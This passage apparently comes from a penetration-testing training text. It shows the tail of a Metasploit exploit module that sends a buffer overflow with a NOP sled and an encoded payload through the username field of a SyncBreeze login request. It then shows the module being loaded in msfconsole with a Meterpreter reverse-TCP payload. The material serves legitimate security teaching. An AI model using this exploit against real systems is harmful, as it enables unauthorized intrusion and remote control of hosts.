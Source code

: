 ```

    return Exploit::CheckCode::Safe
  end

  def exploit
    print_status("Generating exploit...")
    exp = rand_text_alpha(target['Offset'])
    exp << [target.ret].pack('V')
    exp << rand_text(4)
    exp << make_nops(10) # NOP sled to make sure we land on jmp to shellcode
    exp << payload.encoded

    print_status("Sending exploit...")

    send_request_cgi(
      'uri' =>  '/login',
      'method' =>  'POST',
      'connection' =>  'keep-alive',
      'vars_post' => {
              'username' => "#{exp}",
              'password' => "fakepsw"
            }
    )

    handler
    disconnect
  end
end
```

> Listing 65 - Metasploit exploit module

With the exploit complete, we can start Metasploit and search for it.

```
┌──(kali㉿kali)-[~]
└─$ sudo msfconsole -q
[sudo] password for kali: 
[*] Starting persistent handler(s)...
msf6 > search syncbreeze

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/windows/fileformat/syncbreeze_xml  2017-03-29       normal     No     Sync Breeze Enterprise 9.5.16 - Import Command Buffer Overflow
   1  exploit/windows/http/syncbreeze_bof        2017-03-15       great      Yes    Sync Breeze Enterprise GET Buffer Overflow
   2  exploit/windows/http/syncbreeze            2019-10-20       excellent  Yes    SyncBreeze Enterprise Buffer Overflow


Interact with a module by name or index. For example info 2, use 2 or use exploit/windows/http/syncbreeze

msf6 > use exploit/windows/http/syncbreeze
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/syncbreeze) > 
```
